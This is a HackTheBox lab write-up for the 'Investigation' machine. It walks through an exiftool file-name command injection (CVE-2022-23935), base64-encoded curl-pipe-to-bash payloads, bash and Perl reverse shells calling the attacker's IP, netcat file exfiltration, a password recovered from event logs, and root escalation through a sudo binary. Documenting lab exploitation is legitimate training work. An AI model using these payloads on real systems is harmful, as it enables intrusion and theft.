









# Summary
[Investigation](https://app.hackthebox.com/machines/Investigation) starts with a website that runs exiftool on uploaded images. The version of exiftool used contains a command injection vulnerability that I use to get a foothold on the box. On the box is an email containing a zipped Windows Event Log file. Parsing through this file I find a cleartext password that I use to move to a higher privileged user on the box. This user can use sudo to execute a custom binary. Some light reverse engineering this binary reveals this binary can be used to call and execute a reverse shell hosted on my box to gain a shell as root.
# Nmap
First things first, I start off with an Nmap scan. I use `-sC` to run the default scripts, and `-sV` to enumerate versions. I use `-v` to list ports as they're scanned.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: eForenzics - Premier Digital Forensics
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Only 2 ports open here, SSH on port 22 and HTTP on port 80.
#  Shell as WWW-Data
The site seems to just have a "forensic" service to "analyze" images. It looks like all it really does is just run exiftool on the backend, save the output to a .txt file, and then provide the user with a link to that .txt file.





After trying to gain command injection for awhile by using malicious file names, I decide to look for different attack vectors.

The output contains the version on `exiftool` in use: `12.37`, searching for this version I find [CVE-2022-23935](https://nvd.nist.gov/vuln/detail/CVE-2022-23935) which is a command injection that effects version 12.37 and lower!

The way the exploit works is I can send `exiftool` a file with commands in the name, and as long as the name ends with a `|`, the commands will get executed, ie: `curl 10.10.14.68 |` as the file name will actually execute that curl command when `exiftool` gets it.

Unfortunately, slashes "/" really don't like to be in file names, so I'll need to get more creative in getting a reverse shell. I go for the method of base64 encoding a bash reverse shell, and then decode and execute the shell.
```bash
# Encoding the bash shell
┌──(kali㉿Kali)──[11:42:24]──[~/htb/Machines/Investigation]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC85MDAxIDA+JjEK

# I add some strategically placed spaces to make the output alphanumeric only
┌──(kali㉿Kali)──[11:42:36]──[~/htb/Machines/Investigation]
└─$ echo 'bash -i  >& /dev/tcp/10.10.14.78/9001 0>&1  ' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzgvOTAwMSAwPiYxICAK

# The file name will be:
"echo 'Y3VybCAxMC4xMC4xNC42OC9zaGVsbC5zaAo=' | base64 -d | bash |"
```
For some reason, encoding this basic bash revshell didn't work. So I encoded a curl and a pipe to bash style reverse shell, and that worked. The way this reverse shell works is by sending a curl request to a webserver that I host containing a bash reverse shell. The output of the curl request is then piped into bash and gets executed.
```bash
┌──(kali㉿Kali)──[11:42:40]──[~/htb/Machines/Investigation]
└─$ echo 'curl 10.10.14.78/shell.sh | bash' | base64
Y3VybCAxMC4xMC4xNC43OC9zaGVsbC5zaCB8IGJhc2gK

# The filename will be (remember it needs to end with a |):
"echo 'Y3VybCAxMC4xMC4xNC43OC9zaGVsbC5zaCB8IGJhc2gK' | base64 -d | bash | bash |"

# Write a bash reverse shell to a file I will host
┌──(kali㉿Kali)──[11:45:35]──[~/htb/Machines/Investigation/www]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1' > shell.sh

# Start the webserver
┌──(kali㉿Kali)──[11:48:13]──[~/htb/Machines/Investigation/www]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

# Start a netcat listener
┌──(kali㉿Kali)──[11:48:21]──[~/htb/Machines/Investigation/www]
└─$ nc -lvnp 9001
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
```
I then upload the "image" with the malicious file name, get a hit on my web server, the revshell I'm hosting there gets executed, and I catch the reverse shell in netcat.



I then use the [python pty trick](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#spawn-tty-shell) to improve my reverse shell
```bash
www-data@investigation:~/uploads/1712775168$ python3 -c 'import pty;pty.spawn("bash")'
<12775168$ python3 -c 'import pty;pty.spawn("bash")'
www-data@investigation:~/uploads/1712775168$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                              
┌──(kali㉿Kali)──[11:54:43]──[~/htb/Machines/Investigation]
└─$ stty raw -echo; fg                       
[1]  + continued  nc -lvnp 9001
 
www-data@investigation:~/uploads/1712775168$ stty rows 70 cols 126
www-data@investigation:~/uploads/1712775168$ export TERM=xterm
www-data@investigation:~/uploads/1712775168$ 
```
# Log File > Shell as SMorton
I'm now on the box as `www-data`. The other user is `smorton`. I end up running `find / -user smorton 2>/dev/null` to see what smorton's been up to on the box. It returns an interesting file log-windedly named `Windows Event Logs for Analysis.msg` A `msg` file is a microsoft Outlook file that contains an email. Fortunately, I can read this file. I transfer the file back to my attack box using netcat.
```bash
# On the victim
www-data@investigation:~/uploads/1712775168$ nc 10.10.14.78 8001 < '/usr/local/investigation/Windows Event Logs for Analysis.msg'

# On my box
┌──(kali㉿Kali)──[12:03:46]──[~/htb/Machines/Investigation/LogFile]
└─$ nc -lvnp 8001 > 'log.msg'                            
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
```
Once it's on my box, I need to convert the `.msg` file in to a format I can read. I use the tool `msgconvert` contained in `libemail-outlook-message-perl` to convert it to a `.eml` file.

Once it's converted, I can open and read it. I see there's a base64 encoded zip file attached to the email.



I try a few different methods for getting this zip file out of the `.eml` file. What ended up working was a python tool I found on called [eml-extractor](https://github.com/diogo-alves/eml-extractor) I installed it and ran it, and it extracted the zip from the `eml`.

I now have a `security.evtx` An `evtx` file Is Event Tracing file for Windows.



To deal with the `.evtx` file, I use [this github repo](https://github.com/omerbenamram/evtx) to convert the file into JSON. I use the `jsonl` option as using `json` will include lines with record numbers that breaks `jq`. 
```bash
┌──(kali㉿Kali)──[12:24:55]──[~/htb/Machines/Investigation/LogFile/Windows Event Logs for Analysis]
└─$ ../evtx_dump security.evtx -o jsonl -f security.json 


┌──(kali㉿Kali)──[12:25:06]──[~/htb/Machines/Investigation/LogFile/Windows Event Logs for Analysis]
└─$ cat security.json| jq . | head         
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "System": {
      "Channel": "Security",
      "Computer": "eForenzics-DI",
      "Correlation": null,
      "EventID": 1102,

```

This file is huge, with a ton of logged events. I want to as efficient as possible to avoid slogging through this giant file. The note from Tom in the email mentioned logons and "not following procedures." I get a list of the EventIDs:
```bash
┌──(kali㉿Kali)──[12:31:14]──[~/htb/Machines/Investigation/LogFile/Windows Event Logs for Analysis]
└─$ cat security.json | jq -r '.Event.System.EventID' | sort -nr | uniq -c | sort -nr  
   5217 4673
   4266 4703
   2972 4658
<...SNIP...>
      1 4778
      1 4732
      1 1102

```
I want to try and get a list of what all these EventIDs mean, without having to look them all up manually. I do some searching and find a site, [Ultimate Windows Security](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/default.aspx) that contains an encylopedia of all the windows event IDs. I can use this and some clever grepping to send the different EvenIDs to the encyclopedia and extract their meaning.
```bash
┌──(kali㉿Kali)──[12:38:03]──[~/htb/Machines/Investigation/LogFile/Windows Event Logs for Analysis]
└─$ cat security.json | jq -r '.Event.System.EventID' | sort -u | while read id; do curl -s https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=${id} | grep -A1 'class="hey"' | grep -v 'class="hey"'; done
        1102: The audit log was cleared
        4611: A trusted logon process has been registered with the Local Security Authority
        4624: An account was successfully logged on
        4625: An account failed to log on
        4627: Group membership information.
<...SNIP...>
```
The first thing I decide to look at is log ons, specifically failed log ons. This a little "meta-gamey" but I've seen before on HackTheBox where a user will accidently enter their password in the username field.

I use `jq` to list just the events with the EventID=4625, and list the event data.
```bash
──(kali㉿Kali)──[12:48:30]──[~/htb/Machines/Investigation/LogFile/Windows Event Logs for Analysis]
└─$ cat security.json | jq -r '. | select(.Event.System.EventID==4625) | .Event.EventData'
<...SNIP...>,
  "TargetDomainName": "",
  "TargetUserName": "Def@ultf0r3nz!csPa$$",
  "TargetUserSid": "S-1-0-0",
  "TransmittedServices": "-",
  "WorkstationName": "EFORENZICS-DI"
}

```
And indeed in one of the username fields I find what looks like a password! I try this password with the `smorton` account, and I get logged in.
# Custom Binary File > Root Shell
The first thing I do is check `sudo -l`. `Smorton` can run `/usr/bin/binary` with `sudo`. I try running this, and it just exits immediately.
```bash
smorton@investigation:/var/www/uploads/1712775168$ sudo /usr/bin/binary
Exiting...
```
I transfer this file back to my box to look at it closer. I open it up in Ghidra and take a look. I'm not the best at reverse engineering, but I'll give it a go.



It looks to me like all the action is in the `main` function. First thing that happens is that the app looks for 3 parameters to be met, and if they are it actually starts really running. The first one is `if (param_1 != 3)`, which I think is actually just checking that the app itself is running... check

The second is `_Var1 = getuid(); if (_Var1 != 0)`, which checks that the process running that app has a uid of 0. I can run this with sudo so, check

The 3rd one is the really weirder one `iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn"); if (iVar2 != 0) {`, this is checking that the 2nd argument passed to the binary is `lDnxUysaQn`, we can do that, so check.

There's no specification about what the first argument needs to be. I try to get the binary to run without exiting immediately, and it works.
```bash
smorton@investigation:/var/www/uploads/1712775168$ sudo /usr/bin/binary test lDnxUysaQn
Running... 
Exiting...
```

Moving into the main function, it looks like it's running `curl`. Knowing this, the first argument is likely supposed to be an IP or url. I run the binary again and provide my attack box's IP, and I get a hit on my server!



I get a request on my server, and then the app throws a bunch of weird errors. Okay. Looking further in the function is this line `iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);`, which looks like `perl` is getting called and running something, likely the file that was just called with curl. I write a perl reverse shell and host it on my attack box. I start a netcat listener, and then call the perl shell with the binary, and boom! I catch a reverse shell as root!
```perl
# Perl Reverse Shell
use Socket;
$i="10.10.14.78";
$p=9002;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
 open(STDIN,">&S");open(STDOUT,">&S");
 open(STDERR,">&S");exec("/bin/bash -i");
};
```
```bash
# Start python server
python3 -m http.server 80

# Start netcat listener
nc -lvnp

# On victim box, run the binary
smorton@investigation:/var/www/uploads/1712775168$ sudo /usr/bin/binary 10.10.14.78/shell.pl lDnxUysaQn
Running...
```



Another interesting thing about this, is that I can use a bash reverse shell as well as long as I include the bash shebang at the top of the file. This causes perl to bash it to bash, just like you can use bash to execute a perl script if you include the perl shebang `#!/bin/perl` at the top.

